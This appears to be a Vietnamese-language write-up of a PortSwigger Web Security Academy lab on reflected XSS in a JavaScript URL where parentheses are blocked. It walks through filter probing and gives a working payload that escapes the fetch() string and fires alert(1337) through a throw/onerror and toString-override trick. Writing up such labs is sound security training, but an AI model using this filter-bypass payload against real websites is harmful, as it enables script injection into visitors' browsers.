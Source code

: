 # Lab: Reflected XSS in a JavaScript URL with some characters blocked

>  Cấp độ: Expert

## Description

> This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge;  however, the application is blocking some characters in an attempt to  prevent [XSS](https://portswigger.net/web-security/cross-site-scripting) attacks.        
>
> To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function with the string `1337` contained somewhere in the `alert` message.        

## Step by step

1. Bước đầu tiên cần xác định xem các kí tự nào bị filter

   + danh sách đầy đủ các kí tự đặc biệt:``` /><\'"=;*&,()`{}```
   + các kí tự được phép bên trong URL javascript: ```/><\'"=;*&\`,{}```
   + các kí tự bị ban:` ()`

   Chúng ta thấy dấu `()` bị mã hóa html nên không thể sử dụng tag để thực thi alert như yêu cầu đề bài

2. Xem nguồn trang và thấy rằng có thể  XSS được phản ánh trong URL dựa trên javascript:fetch()

   ![image](https://user-images.githubusercontent.com/68894302/172291404-b97f4672-a037-4bc3-bc45-ba7de56bebc2.png)

   Decode ra sẽ như sau:

   ``` javascript
   javascript:fetch('/analytics', {method:'post',body:'/post?postId=2&'}'}).finally(_ => window.location = '/')
   ```

​				=> có thể escape ra khỏi phần fetch json bằng kí tự `&'}`

## Exploit

Ý tưởng là sau khi escape ra khỏi chuỗi, đóng `}` rồi thì làm thế nào để thực thi được `alert(1337)` mỗi khi người dùng nhấn quay trở lại blog

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=1&%27}payload}).finally(_ => window.location = '/')">Back to Blog</a>
```

Sau khi decode ta có dạng như sau

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=1&'}payload}).finally(_ => window.location = '/')">Back to Blog</a>
```

Payload cuối cùng(URL decode)

```javascript
fetch('/analytics', {method:'post',body:'/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')
```

Giải thích tạo sao payload trên lại hoạt động:

+ `&`  thêm một tham số mới để thoát khỏi postId, 

+ `'}'` thoát khỏi body: `'/post?postId=1'`, đoạn code sau đó sẽ như sau: 

  `fetch('/analytics', {method:'post',body:'/post?postId=1&'}'}).finally(_ =>window.location= '/')`

+ `,x=x=>{throw/**/alert,1337}, toString=x,window+'',` làm một cách để bypass () bằng cách sử dụng câu lệnh`throw` như đã đề cập trong phần lí thuyết

  ![image-20220607113123009](C:/Users/tuandv/AppData/Roaming/Typora/typora-user-images/image-20220607113123009.png)

  Về cơ bản nó ghi đè lên `toString` và kích hoạt nó, `toString=alert()` không hoạt động vì `(` và `)` bị chặn, các dấu `,` để không phá vỡ javascript

+ `x{:'` để không phá vỡ code javascript

![image](https://user-images.githubusercontent.com/68894302/172300723-9a59ba2a-3856-467c-b059-77c98fa2ae78.png)